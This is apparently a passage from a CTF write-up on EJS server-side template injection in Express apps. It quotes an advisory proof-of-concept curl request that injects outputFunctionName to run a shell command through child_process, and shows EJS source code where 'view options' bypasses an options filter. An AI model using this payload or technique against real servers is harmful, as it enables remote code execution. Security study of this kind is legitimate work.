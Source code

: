 Proof of concept should create a file via touch named /tmp/GHSLPayload:

```bash
curl 'http://localhost:3000/?message=foo&settings\[view%20options\]\[outputFunctionName\]=x%3Bprocess.mainModule.require(%27child_process%27).exec(%27bash%20-c%20%22touch%20%2Ftmp%2FGHSLPayload%22%27)%3Bx'
```

[^6]: [https://securitylab.github.com/advisories/GHSL-2021-021-tj-ejs/](https://securitylab.github.com/advisories/GHSL-2021-021-tj-ejs/)

If we try the PoC against our server it doesn't work, but it is still a great indicator that we are close to the solution.

### Undocumented EJS shallowCopy

The final illumination comes from this EJS Server Side Template Injection writeup [^7] which exploited prototype pollution in the library.

[^7]: [https://eslam.io/posts/ejs-server-side-template-injection-rce/](https://eslam.io/posts/ejs-server-side-template-injection-rce/)

The article digs down into the EJS source code, showing why the `data` and the `options` are merged, but most importantly, pointing us to an **old undocumented feature** that we can still use in the later version: the `view options`.

```js
var _OPTS_PASSABLE_WITH_DATA = ['delimiter', 'scope', 'context', 'debug', 'compileDebug',
  'client', '_with', 'rmWhitespace', 'strict', 'filename', 'async'];
...
exports.render = function (template, d, o) {
  var data = d || {};
  var opts = o || {};

  // No options object -- if there are optiony names
  // in the data, copy them to options
  if (arguments.length == 2) {
    utils.shallowCopyFromList(opts, data, _OPTS_PASSABLE_WITH_DATA);
  }

  return handleCache(opts, template)(data);
};
...
exports.renderFile = function () {
	...
	// Undocumented after Express 2, but still usable, esp. for
	// items that are unsafe to be passed along with data, like `root`
	viewOpts = data.settings['view options'];
	if (viewOpts) {
	    utils.shallowCopy(opts, viewOpts);
	}
...
```

Migrating from Express 2.x to 3.x [^8], the `view options` mutated into `app.locals`, but was not removed from the source code!

[^8]: [https://github.com/expressjs/express/wiki/Migrating-from-2.x-to-3.x](https://github.com/expressjs/express/wiki/Migrating-from-2.x-to-3.x)

{: .bug }
>By calling the `renderFile` function and passing a single object containing a `settings` property containing itself the `view options` property, we can bypass the `_OPTS_PASSABLE_WITH_DATA` filter and overwrite all the properties we want.


[^1]: [https://ejs.co/#docs](https://ejs.co/#docs )
[^2]: [https://ejs.co/#docs](https://ejs.co/#docs)
[^3]: [https://expressjs.com/en/api.html#res.render](https://expressjs.com/en/api.html#res.render)
[^4]: [https://snyk.io/blog/fixing-ejs-rce-vuln/](https://snyk.io/blog/fixing-ejs-rce-vuln/)
[^5]: [https://github.com/mde/ejs/wiki/Using-EJS-with-Express#passing-opts-with-data](https://github.com/mde/ejs/wiki/Using-EJS-with-Express#passing-opts-with-data)
[^9]: [https://hxp.io/blog/101/hxp-CTF-2022-valentine/](https://hxp.io/blog/101/hxp-CTF-2022-valentine/)